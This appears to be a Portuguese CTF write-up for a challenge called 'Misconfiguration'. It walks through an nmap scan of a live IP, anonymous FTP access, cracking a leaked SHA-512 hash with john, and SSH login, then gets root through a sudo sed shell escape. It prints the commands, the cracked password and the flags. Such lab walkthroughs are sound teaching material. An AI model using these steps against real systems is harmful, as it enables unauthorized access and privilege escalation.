

<div class="page"/>

<div class="page"/>

## **<center>Sumário</center>**

  **Esse documento é um passo a passo de como resolver o CTF chamado "Misconfiguration".**

  1. #### ***<a href="#1">Exploração e Enumeração.</a>***
  2. #### ***<a href="#2">Conseguindo Acesso a máquina.</a>***
  3. #### ***<a href="#3">Escalação de Privilégio Vertical.</a>***

### **Complementos:**

   1. #### ***<a href="#4">Referências.</a>***
   2. #### ***<a href="#5">Links p/ CTF.</a>***
  
---

### **Ferramentas utilizadas:**

- #### [nmap](https://nmap.org/)
    - Utilizaremos o nmap para fazer o scan de portas e serviços.

- #### [john](https://www.openwall.com/john/)
    - Utilizaremos o john para quebrar hash de senha.

---

<div class="page"/>

## **<a id="1"> • Exploração e Enumeração.</a>**

Em um CTF a primeira coisa a se fazer é um scan de portas para ver quais estão abertas e quais serviços estão rodando nelas.

E para isso vamos utilizar o **nmap** com o comando `nmap -sV -Pn -v 140.238.183.68`

onde:
- `-sV` é para descobrir quais serviços estão rodando nas portas.
- `-Pn` é para não fazer o ping de descoberta.
- `-v` é para o nmap rodar em modo verbose.


```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           21:22:26
╰──➤ nmap -sV -Pn -v 140.238.183.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-20 21:22 -03
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 21:22
Completed Parallel DNS resolution of 1 host. at 21:22, 1.16s elapsed
Initiating SYN Stealth Scan at 21:22
Scanning 140.238.183.68 [1000 ports]
Discovered open port 21/tcp on 140.238.183.68
Discovered open port 22/tcp on 140.238.183.68
Discovered open port 80/tcp on 140.238.183.68
Discovered open port 5959/tcp on 140.238.183.68
Completed SYN Stealth Scan at 21:22, 7.18s elapsed (1000 total ports)
Initiating Service scan at 21:22
Scanning 4 services on 140.238.183.68
Completed Service scan at 21:24, 112.94s elapsed (4 services on 1 host)
NSE: Script scanning 140.238.183.68.
Initiating NSE at 21:24
Completed NSE at 21:24, 14.39s elapsed
Initiating NSE at 21:24
Completed NSE at 21:24, 1.15s elapsed
Nmap scan report for 140.238.183.68
Host is up (0.053s latency).
Not shown: 968 filtered tcp ports (no-response)
PORT      STATE  SERVICE         VERSION
21/tcp    open   ftp             vsftpd 3.0.5
22/tcp    open   ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http            gunicorn
5959/tcp  open   ssl/http        Indy httpd 17.3.32.2478 (Paessler PRTG bandwidth monitor)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.34 seconds
           Raw packets sent: 2940 (129.360KB) | Rcvd: 36 (1.460KB)
```

Então temos:

- **Porta 21** aberta com o serviço `FTP` rodando na versão 3.0.5 do `vsftpd`.
- **Porta 22** aberta com o serviço `SSH` rodando na versão 8.9p1 do `OpenSSH`.
- **Porta 80** aberta com o serviço `HTTP` rodando um servidor `gunicorn`.

Vamos então explorar a porta 21 do FTP para ver se conseguimos encontrar alguma informação útil. Para acessar o FTP vamos utilizar o comando `ftp 140.238.183.68`

Alguns servidores FTP permitem que você faça login como `anonymous`.

O login anônimo em servidores FTP permite que os usuários acessem o servidor sem fornecer credenciais de autenticação, como nome de usuário e senha. Ele é usado principalmente para permitir o acesso público a determinados arquivos ou diretórios, onde os usuários podem baixar ou fazer upload de arquivos sem a necessidade de se identificar.

O principal objetivo do login anônimo é fornecer um método de compartilhamento de arquivos e informações de forma aberta e acessível. Isso é comumente usado por sites públicos que disponibilizam arquivos para download, como distribuições de software de código aberto, documentos públicos ou atualizações de produtos.

então vamos tentar logar como `anonymous` no FTP.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           21:24:50
╰──➤ ftp 140.238.183.68
Connected to 140.238.183.68.
220 (vsFTPd 3.0.5)
Name (140.238.183.68:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Aqui podemos ver que conseguimos logar como `anonymous` no FTP. Vamos tentar listar os arquivos do servidor FTP utilizando o comando `ls`.

```bash
ftp> ls
229 Entering Extended Passive Mode (|||43656|)
150 Here comes the directory listing.
-r--r--r--    1 0        0              19 Jun 18 03:22 flag_1.txt
-rw-r--r--    1 0        0             215 Jun 17 03:18 for_cleo.txt
226 Directory send OK.
```

Dentro do servidor FTP temos dois arquivos, o `flag_1.txt` e o `for_cleo.txt`. Vamos baixar esses arquivos para o nosso computador utilizando o comando `get` do FTP.

```bash
ftp> get flag_1.txt
local: flag_1.txt remote: flag_1.txt
229 Entering Extended Passive Mode (|||48999|)
150 Opening BINARY mode data connection for flag_1.txt (19 bytes).
100% |*******************************************************************************************************|    19      161.34 KiB/s    00:00 ETA
226 Transfer complete.
19 bytes received in 00:00 (0.43 KiB/s)
ftp> get for_cleo.txt
local: for_cleo.txt remote: for_cleo.txt
229 Entering Extended Passive Mode (|||43949|)
150 Opening BINARY mode data connection for for_cleo.txt (215 bytes).
100% |*******************************************************************************************************|   215        2.56 MiB/s    00:00 ETA
226 Transfer complete.
215 bytes received in 00:00 (4.90 KiB/s)
```

Ao ler o conteúdo do arquivo `flag_1.txt` temos a primeira flag do desafio.

> `CTF{4n0nym0u5_FTP}`

---

## **<a id="2"> • Conseguindo Acesso a máquina.</a>**

Agora vamos ler o conteúdo do arquivo `for_cleo.txt` para ver se conseguimos encontrar alguma informação útil.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/CTF-1                                                                                             21:38:48
╰──➤ cat for_cleo.txt
Cleo, eu mudei a sua senha de usuário para:
$6$/pi9WtNxItpsSLbT$9ILafyLThIbOgu/o6cfduAYYEZvpNbqiVcan.UdYidp6EVHPhy7B3OChCD4qi88.s4PwCpQH8vJmbC47gjrz4/

Quando logar lembre de desabilitar o modo anonymous do ftp =)
```

Aqui podemos ver que o usuário `cleo` tem uma senha criptografada. Vamos tentar quebrar essa senha utilizando o `john` com o comando `john --wordlist=/usr/share/wordlists/rockyou.txt hash`.

onde:
- `--wordlist` é para especificar o arquivo de wordlist que o john vai utilizar.
- `hash` é o arquivo onde salvaremos a hash que queremos quebrar.

A wordlist que vamos utilizar é a `rockyou.txt` que vem por padrão no kali linux. essa mesma wordlist pode ser encontrada no diretório do github do [seclist](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases).

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/CTF-1                                                                                             21:47:27
╰──➤ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)
```

Eu já havia quebrado essa hash antes, então eu vou  utilizar o comando `john --show hash` para ver a senha quebrada.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/CTF-1                                                                                             21:47:29
╰──➤ john --show hash
?:sunflower

1 password hash cracked, 0 left
```

temos então que a senha do usuário `cleo` é `sunflower`.

Vamos tentar logar como o usuário `cleo` utilizando o comando `ssh cleo@140.238.183.68`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/CTF-1                                                                                             21:49:55
╰──➤ ssh cleo@140.238.183.68
cleo@140.238.183.68's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-1037-oracle x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 21 00:51:42 UTC 2023

  System load:  0.0               Processes:             115
  Usage of /:   7.0% of 48.27GB   Users logged in:       0
  Memory usage: 32%               IPv4 address for ens3: 10.0.0.9
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

21 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Mon Jun 19 07:47:05 2023 from 45.230.97.205
cleo@ctf-1:~$

```

Conseguimos logar como o usuário `cleo` utilizando a senha `sunflower`.

Dando um `ls` no diretório home do usuário `cleo` temos um arquivo chamado `flag_2.txt`. Vamos ler o conteúdo desse arquivo para obter a segunda flag do desafio.

```bash
cleo@ctf-1:~$ ls
flag_2.txt  ftp
cleo@ctf-1:~$ cat flag_2.txt
CTF{d3cryp71n6_5h4-512}
```

Então temos que a segunda flag do desafio é:
>  `CTF{d3cryp71n6_5h4-512}`

---

## **<a id="3"> • Escalação de Privilégio Vertical.</a>**

A escalação de privilégio vertical, também conhecida como elevação de privilégio vertical, é uma técnica usada por atacantes em cibersegurança para obter um nível mais alto de acesso e controle em um sistema ou rede.

Então agora vamos procurar por formas que nós ajudem a escalar privilégio. Usando o comando `sudo -l` podemos ver quais binários o usuário `cleo` pode executar com o comando `sudo`.

```bash
cleo@ctf-1:~$ sudo -l
[sudo] password for cleo:
Matching Defaults entries for cleo on ctf-1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cleo may run the following commands on ctf-1:
    (root) /usr/bin/sed
```

Podemos ver que o usuário `cleo` pode executar o binário `/usr/bin/sed` como `root`. Podemos então verificar se existem exploits para o binário `sed` no site do [GTFOBins](https://gtfobins.github.io).

GTFOBins é uma lista selecionada de binários Unix que podem ser usados para contornar as restrições de segurança locais em sistemas mal configurados.

O projeto coleta funções legítimas de binários Unix que podem ser abusadas para quebrar shells restritos, escalar ou manter privilégios elevados, transferir arquivos, vincular spawn e shells reversos e facilitar as outras tarefas pós-exploração.

Ao pesquisar por `sed` no site do GTFOBins temos o seguinte resultado:



Então podemos utilizar o comando `sudo sed -n '1e exec sh 1>&0' /etc/hosts` para executar um shell como `root`.

```bash
cleo@ctf-1:~$ sudo sed -n '1e exec sh 1>&0' /etc/hosts
# whoami
root
```

Agora que somos o usuário `root` vamos capturar a ultima flag.

Ao listar os arquivos do diretório `/root` temos:

```bash
# cd ~
# ls
flag_3.txt  snap  Website
```

A flag está no arquivo `flag_3.txt`. Vamos ler o conteúdo desse arquivo para obter a terceira flag do desafio.

```bash
# cat flag_3.txt
CTF{5ud0_pr1v_35c4l4710n}
```

Então temos que a terceira flag do desafio é:
> `CTF{5ud0_pr1v_35c4l4710n}`

---

## **<a id="4">• Referências.</a>**

- [SUID Executables](https://pentestlab.blog/2017/09/25/suid-executables/)
  
- [GTFOBins](https://gtfobins.github.io)

- [Privilege Escalation on Linux](https://delinea.com/blog/linux-privilege-escalation)


---

## **<a id="5">• CTF.</a>**

  - [Misconfiguration](http://140.238.183.68)